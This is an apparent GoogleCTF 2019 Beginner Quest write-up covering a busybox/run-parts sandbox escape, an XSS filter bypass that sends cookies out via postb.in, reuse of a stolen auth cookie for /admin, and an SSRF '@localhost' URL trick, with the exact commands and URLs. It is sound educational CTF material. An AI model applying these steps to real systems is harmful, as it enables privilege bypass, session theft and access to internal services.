




# GoogleCTF
## 2019 - Beginner Quest (Part 3)
[lint to Part 1](./GoogleCTF_Beginner_Quest.html)
[lint to Part 2](./GoogleCTF_Beginner_Quest_2.html)

### Day 3 - Work Computer (sandbox)
#### Steps
1. There is another flag hidden in the task. We cannot open the "ORME.flag" using the same method as the origional method. listing the permission, we can see that there are no permission for the current user.
    ```console
    > tar -c ORME.flag
    tar: can't open 'ORME.flag': Permission denied
    tar: error exit delayed from previous errors
    > ls -l
    total 8
    ----------    1 1338     1338            33 Aug  3 13:27 ORME.flag
    -r--------    1 1338     1338            28 Aug  3 13:27 README.flag
    ```
1. Again, we have to enumerate to find all commands in `/bin`. After searching and reference from other [write-ups](https://github.com/AidanFray/CTF_Writeups/tree/master/2019/GoogleCTF/BeginnerQuests/WorkComputer), we can find the useful command `run-parts`.
    1. Firstly we install the environment in tmp, making the directory having only one command.
        > install /bin/busybox /tmp
    1. Then we can test it through the `run-parts` command:
        ```console
        > run-parts /tmp
        BusyBox v1.29.3 (2019-01-24 07:45:07 UTC) multi-call binary.
        BusyBox is copyrighted by many authors between 1998-2015.
        Licensed under GPLv2. See source distribution for detailed
        copyright notices.
        ```
    1. then we can call the shell out. Note that as the 'busybox' we installed is a fresh new instance, it has the commands like 'chmod' that is not exist with the instance that we enconter when we connects in it.
        ```console
        > run-parts /tmp --arg sh 
        $ ls
        ORME.flag
        README.flag
        $ busybox chmod 777 ORME.flag    
        $ busybox cat ORME.flag
        CTF{XXXXXXXXXXXXXXXXXXXXXX}
        ```


### Day 5 - Cookie World Order (web) 
#### Steps
1. In this task, we are given a website with a video and a chartroom. we can type things into the chatroom, but any XSS script will be translated to `HACKER ALERT` comment.
     
1. But the blind spot is that HTML is still valid and javascript in `onerror` is not checked. Therefore we can use the same XSS trick as Part 1 with our postb.in friend. Then there is our flag!
    > 
     


### Day 4 - Cookie World Order (web) 
#### Steps
1. With the flag, there comes with another cookie `auth`, which may bring us to another flag:
    > auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz
1. Remember the previous XSS flag, where there is a '/admin' directory? yes, there is an admin directory here too. Only that it redirects us back to the website unless we give the `auth` cookie.
    > document.cookie = "auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz"
     
1. Well there is not much to see, and the 'Camera Control' tab is not working too.
    > Requests only accepted from 127.0.0.1
1. Then we have to find other ways to locate the file 'locally'. Enumering all the urls we have, the streaming path is a local file we found:
    > /watch?livestream=http://cwo-xss.web.ctfcompetition.com/livestream/garden-livestream.webm
1. However, trying to replace the path solely is not enough as it is not recongized also as a local file request. We have to fake the server by putting a additional '@' sign to trick it. After that our flag appears!
    > http://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com@localhost/admin/controls
     
